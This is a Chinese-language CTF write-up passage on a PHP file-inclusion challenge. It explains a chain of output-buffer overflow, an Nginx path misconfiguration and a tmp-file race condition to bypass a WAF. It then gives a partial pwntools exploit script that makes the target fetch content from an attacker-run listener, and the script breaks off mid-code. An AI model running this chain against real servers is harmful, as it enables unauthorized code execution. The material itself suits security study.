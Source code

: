 利用超长的 name 溢出 output buffer 得到 sandbox 路径

利用 Nginx 配置错误，通过 .well-known../files/sandbox/来获取我们 tmp 文件的文件名

发送另一个请求包含我们的 tmp 文件，此时并没有 PHP 代码

绕过 WAF 判断后，发送 PHP 代码段，包含我们的 PHP 代码拿到 Flag

整个题目的关键点主要是以下几点(来自 @wupco)：

需要利用大文件或ftp速度限制让连接保持

传入name过大 overflow output buffer，在保持连接的情况下获取沙箱路径

tmp文件需要在两种文件直接疯狂切换，使得第一次file_get_contents获取的内容不带有<?,include的时候是正常php代码，需要卡时间点，所以要多跑几次才行

.well-known../files/是nginx配置漏洞，就不多说了，用来列生成的tmp文件

由于第二个极短的时间窗，我们需要比较准确地调控延迟时间，之前没调控好时间以及文件大小，挂一晚上脚本都没有 hit 中一次，第二天经过 [@rebirth ](/rebirth ) 的深刻指点，修改了一下延迟时间以及服务器响应的文件的大小，成功率得到了很大的提高，基本每次都可以 getflag。 

![](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/1681202792771-83f2702d-aee9-4279-b1e8-937794df8b87.png#id=peRNB&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

脚本其中 192.168.34.1 是本地题目地址，192.168.151.132 是 client 的地址

```python
from pwn import *
import requests
import re
import threading
import time


for gg in range(100):

    r = remote("192.168.34.1", 8004)
    l = listen(8080)
    
    data = '''name={}&file=compress.zlib://http://192.168.151.132:8080'''.format("a"*8050)

    payload = '''POST / HTTP/1.1
Host: 192.168.34.1:8004
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Content-Length: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Cookie: PHPSESSID=asdasdasd
Upgrade-Insecure-Requests: 1
{}'''.format(len(data), data).replace("\n","\r\n")


    r.send(payload)
    try:
        r.recvuntil('your sandbox: ')
    except EOFError:
        print("[ERROR]: EOFERROR")
        # l.close()
        r.close()
        continue
    # dirname = r.recv(70)
    dirname = r.recvuntil('\n', drop=True) + '/'

    print("[DEBUG]:" + dirname)

    # send trash
    c = l.wait_for_connection()
    resp = '''HTTP/1.1 200 OK
Date: Sun, 29 Dec 2019 05:22:47 GMT
Server: Apache/2.4.18 (Ubuntu)
```